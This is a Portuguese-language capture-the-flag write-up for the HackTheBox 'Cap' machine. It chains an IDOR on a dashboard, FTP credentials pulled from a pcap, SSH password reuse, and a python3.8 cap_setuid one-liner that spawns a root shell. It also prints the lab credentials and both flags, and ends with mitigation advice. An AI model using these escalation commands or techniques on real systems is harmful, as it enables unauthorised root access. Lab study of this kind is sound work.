







# HackTheBox — Cap (Easy)

## Informações

| Campo | Detalhe |
|---|---|
| **Plataforma** | HackTheBox Machines |
| **Dificuldade** | Easy |
| **Sistema** | Linux |
| **Serviços** | FTP, SSH, HTTP |

---

## Contexto

Máquina Linux com um "Security Dashboard" web que expõe capturas de pacotes (`.pcap`) através de um endpoint vulnerável a IDOR. Um dos arquivos capturados continha uma sessão FTP completa em texto claro, incluindo credenciais. O acesso SSH com essas credenciais levou à primeira flag, e a escalação de privilégio explorou uma capability Linux mal configurada no binário Python.

---

## Reconhecimento

```bash
nmap -sV -p 21,22,80 10.129.29.38
```

Resultado:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsFTPd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
80/tcp open  http    Gunicorn
```



O serviço web rodando em Gunicorn (servidor WSGI Python) sugeria uma aplicação Flask/Django por trás.

---

## Análise Inicial — Web e IDOR

Acessando o "Security Dashboard" na porta 80, a aplicação exibia estatísticas de captura de pacotes de rede (número de pacotes, pacotes IP, TCP, UDP) com um botão de download.

A URL do dashboard seguia o padrão:

```
http://10.129.29.38/data/0
```

O número final indicava um índice de captura — sinal clássico de IDOR. A aplicação não validava se aquele índice pertencia ao usuário/sessão atual, permitindo acessar capturas de outras sessões apenas alterando o número.



---

## Exploração — Análise Forense do PCAP

Baixei o arquivo `.pcap` exposto e abri no Wireshark. Filtrando por stream TCP, identifiquei uma sessão FTP completa:

```bash
tcp.stream eq 3
```



Usei **Follow TCP Stream** para visualizar a conversa completa em texto claro:

```
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```



FTP transmite credenciais sem criptografia — qualquer pessoa capturando o tráfego de rede consegue extrair usuário e senha diretamente do payload, sem precisar quebrar nenhum hash.

Credenciais obtidas: `nathan` / `Buck3tH4TF0RM3!`

---

## Acesso Inicial — SSH

Testei as credenciais do FTP diretamente no SSH — reaproveitamento de senha entre serviços, prática comum e perigosa:

```bash
ssh nathan@10.129.29.38
```

Acesso concedido.



---

## Flag de Usuário

```bash
ls
cat user.txt
```

Resultado: `8778c0f66b8513e893500f94d4d9cb29`



---

## Escalação de Privilégios — Linux Capabilities

Em vez de `sudo -l`, verifiquei capabilities atribuídas a binários no sistema — um vetor de escalação menos óbvio que sudo, mas igualmente eficaz:

```bash
getcap -r / 2>/dev/null
```

Resultado revelou uma capability crítica:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

A flag `cap_setuid` permite que o binário altere o UID do processo — incluindo defini-lo como `0` (root) — independente de quem o executa.

Confirmei o usuário atual:

```bash
id
# uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
whoami
# nathan
```

Explorei a capability diretamente:

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
whoami
# root
```



---

## Flag de Root

```bash
ls
cd /root
cat root.txt
```

Resultado: `61f3f099ddf70d43809be97ed31b291e`

---

## Cadeia de Exploração

```
nmap → FTP, SSH, HTTP (Gunicorn)
→ Security Dashboard com IDOR em /data/<n>
→ download de pcap → análise no Wireshark
→ Follow TCP Stream → credenciais FTP em texto claro
→ SSH com credenciais reaproveitadas → acesso como nathan
→ user.txt capturada
→ getcap -r / → python3.8 com cap_setuid
→ python3.8 -c 'os.setuid(0)' → root
→ root.txt capturada
```

---

## Impacto

A cadeia combina três falhas independentes: IDOR expondo dados de rede de outras sessões, protocolo FTP transmitindo credenciais sem criptografia, e uma capability Linux concedida sem necessidade real ao binário Python. Qualquer uma isolada já seria preocupante; juntas, resultam em comprometimento total do sistema a partir de uma página de dashboard aparentemente inofensiva.

---

## Mitigação

- Validar autorização no servidor para qualquer recurso indexado por ID (`/data/<n>`) — nunca confiar que o índice pertence ao usuário da sessão atual.
- Substituir FTP por SFTP ou FTPS, que criptografam a sessão completa, incluindo autenticação.
- Nunca reaproveitar senhas entre serviços diferentes (FTP e SSH, neste caso).
- Auditar capabilities atribuídas a binários regularmente com `getcap -r /` — `cap_setuid` em interpretadores como Python, Perl ou Ruby é praticamente equivalente a um SUID root e deve ser removido salvo necessidade explícita e documentada.

---

## Aprendizados

- IDOR não se limita a APIs REST tradicionais — dashboards e endpoints de dados também são vetores válidos quando indexados por número sequencial.
- Análise de tráfego capturado (`.pcap`) é uma fonte de credenciais subestimada — qualquer protocolo sem criptografia (FTP, Telnet, HTTP) exposto em uma captura de rede é objetivo direto de reconhecimento.
- `getcap -r /` é o equivalente de `sudo -l` para escalação via Linux capabilities — deve ser parte padrão de qualquer enumeração de privilege escalation em Linux, junto com SUID binaries e cron jobs.
- `cap_setuid` em qualquer interpretador de linguagem (Python, Perl, Ruby, Node) é escalação direta para root via `os.setuid(0)` ou equivalente — não exige exploit complexo, só conhecimento da capability.
- Esse lab consolidou praticamente toda a base do Starting Point em uma única máquina: enumeração de serviços, IDOR, análise de tráfego, reaproveitamento de credenciais e escalação de privilégio Linux.
